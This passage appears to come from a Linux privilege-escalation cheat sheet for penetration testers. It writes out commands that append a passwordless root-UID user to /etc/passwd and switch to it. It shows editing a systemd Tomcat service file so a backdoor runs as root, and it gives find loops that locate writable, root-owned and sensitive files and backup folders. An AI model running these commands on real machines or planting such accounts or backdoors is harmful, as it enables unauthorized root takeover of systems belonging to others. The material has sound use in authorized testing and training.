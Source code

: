 Alternatively, you can use the following lines to add a dummy user without a password.\
WARNING: you might degrade the current security of the machine.

```
echo 'dummy::0:0::/root:/bin/bash' >>/etc/passwd
su - dummy
```

NOTE: In BSD platforms `/etc/passwd` is located at `/etc/pwd.db` and `/etc/master.passwd`, also the `/etc/shadow` is renamed to `/etc/spwd.db`.

You should check if you can **write in some sensitive files**. For example, can you write to some **service configuration file**?

```bash
find / '(' -type f -or -type d ')' '(' '(' -user $USER ')' -or '(' -perm -o=w ')' ')' 2>/dev/null | grep -v '/proc/' | grep -v $HOME | sort | uniq #Find files owned by the user or writable by anybody
for g in `groups`; do find \( -type f -or -type d \) -group $g -perm -g=w 2>/dev/null | grep -v '/proc/' | grep -v $HOME; done #Find files writable by any group of the user
```

For example, if the machine is running a **tomcat** server and you can **modify the Tomcat service configuration file inside /etc/systemd/,** then you can modify the lines:

```
ExecStart=/path/to/backdoor
User=root
Group=root
```

Your backdoor will be executed the next time that tomcat is started.

### Check Folders

The following folders may contain backups or interesting information: **/tmp**, **/var/tmp**, **/var/backups, /var/mail, /var/spool/mail, /etc/exports, /root** (Probably you won't be able to read the last one but try)

```bash
ls -a /tmp /var/tmp /var/backups /var/mail/ /var/spool/mail/ /root
```

### Weird Location/Owned files

```bash
#root owned files in /home folders
find /home -user root 2>/dev/null
#Files owned by other users in folders owned by me
for d in `find /var /etc /home /root /tmp /usr /opt /boot /sys -type d -user $(whoami) 2>/dev/null`; do find $d ! -user `whoami` -exec ls -l {} \; 2>/dev/null; done
#Files owned by root, readable by me but not world readable
find / -type f -user root ! -perm -o=r 2>/dev/null
#Files owned by me or world writable
find / '(' -type f -or -type d ')' '(' '(' -user $USER ')' -or '(' -perm -o=w ')' ')' ! -path "/proc/*" ! -path "/sys/*" ! -path "$HOME/*" 2>/dev/null
#Writable files by each group I belong to
for g in `groups`;
      do printf "  Group $g:\n";
      find / '(' -type f -or -type d ')' -group $g -perm -g=w ! -path "/proc/*" ! -path "/sys/*" ! -path "$HOME/*" 2>/dev/null
      done
done
```
